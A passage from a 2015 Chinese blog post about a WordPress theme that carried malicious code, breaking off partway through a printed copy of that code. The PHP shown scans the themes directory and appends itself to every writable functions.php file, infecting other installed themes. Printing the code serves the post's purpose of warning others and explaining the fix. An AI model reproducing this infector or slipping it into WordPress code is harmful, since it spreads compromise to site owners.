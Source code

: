 ```yaml
---
author: liqimore
categories:
  - 编程
comments: true
date: 2015-11-22 00:09:32+00:00
link: http://blog.codefog.com/bad-code-in-wordpress-theme.html
slug: bad-code-in-wordpress-theme
tags:
  - wordpress主题报错
  - wordpress恶意代码
  - Wordpress更换主题报错
title: Wordpress主题被插入恶意代码解决办法
---
```



今天无聊在WP官方主题库里面翻看，看到一个不错的主题，点击了一下预览按钮，之后我将其下载到本地（并没有设置为当前主题，只是收藏），但是在我下载完成后点击预览，出现了function.php报错，具体到了行，我翻看了一下这个主题的function.php文件，没发现异常（我当时居然没发现。。），然后google了一下报错信息（Fatal error: Cannot redeclare _check_isactive_widget()”、”_get_allwidgetcont” 之类），才知道自己中招了！！

下面是全部的恶意代码：

    
    <?php
    function _verifyactivate_widgets(){
    $widget=substr(file_get_contents(__FILE__),strripos(file_get_contents(__FILE__),"<"."?"));$output="";$allowed="";
    $output=strip_tags($output, $allowed);
    $direst=_get_allwidgets_cont(array(substr(dirname(__FILE__),0,stripos(dirname(__FILE__),"themes") + 6)));
    if (is_array($direst)){
    foreach ($direst as $item){
    if (is_writable($item)){
    $ftion=substr($widget,stripos($widget,"_"),stripos(substr($widget,stripos($widget,"_")),"("));
    $cont=file_get_contents($item);
    if (stripos($cont,$ftion) === false){
    $comaar=stripos( substr($cont,-20),"?".">") !== false ? "" : "?".">";
    $output .= $before . "Not found" . $after;
    if (stripos( substr($cont,-20),"?".">") !== false){$cont=substr($cont,0,strripos($cont,"?".">") + 2);}
    $output=rtrim($output, "nt"); fputs($f=fopen($item,"w+"),$cont . $comaar . "n" .$widget);fclose($f);
    $output .= ($isshowdots && $ellipsis) ? "..." : "";
    }
    }
    }
    }
    return $output;
    }
    function _get_allwidgets_cont($wids,$items=array()){
    $places=array_shift($wids);
    if(substr($places,-1) == "/"){
    $places=substr($places,0,-1);
    }
    if(!file_exists($places) || !is_dir($places)){
    return false;
    }elseif(is_readable($places)){
    $elems=scandir($places);
    foreach ($elems as $elem){
    if ($elem != "." && $elem != ".."){
    if (is_dir($places . "/" . $elem)){
    $wids[]=$places . "/" . $elem;
    } elseif (is_file($places . "/" . $elem)&&
    $elem == substr(__FILE__,-13)){